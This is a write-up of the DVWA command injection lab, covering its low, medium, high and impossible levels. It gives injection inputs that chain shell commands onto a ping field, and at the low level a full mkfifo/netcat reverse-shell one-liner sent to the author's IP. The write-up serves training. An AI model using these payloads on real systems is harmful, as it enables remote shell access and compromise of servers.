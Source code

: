 # Difficulty - Low

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/Command%20Injection/Sources/low.php)

The php script will run the `shell_exec( 'ping  ' . $target )` without filtering the `$target`.

So, a ping like that :
> 0.0.0.0 && ls 

Will return :
![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/Command%20Injection/Pictures/1.png)


A ping like that:
> 0.0.0.0 ; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc  10.X.X.X 1234 4242 >/tmp/f
Where 10.X.X.X is my ip will return a reverse shell on the 1234 port:
![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/Command%20Injection/Pictures/2.png)


# Difficulty - Medium

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/Command%20Injection/Sources/medium.php)

The php script will run the `shell_exec( 'ping  ' . $target )` replacing `&&` and `;` with `''`.
But it does not replace the `&` character (run in background).

So, a ping like that :
> 0.0.0.0 & ls 

Will return :
![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/Command%20Injection/Pictures/3.png)

We can use that character for reverse shell either.


# Difficulty - High

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/Command%20Injection/Sources/high.php)

The php script is now replacing `&`, `;`, `|`, `-`, `$`, `(`, `)`, `||`.

But after a few shots I got this:
![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/Command%20Injection/Pictures/4.png)

We can use that character for reverse shell either.


# Difficulty - Impossible

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/Command%20Injection/Sources/impossible.php)
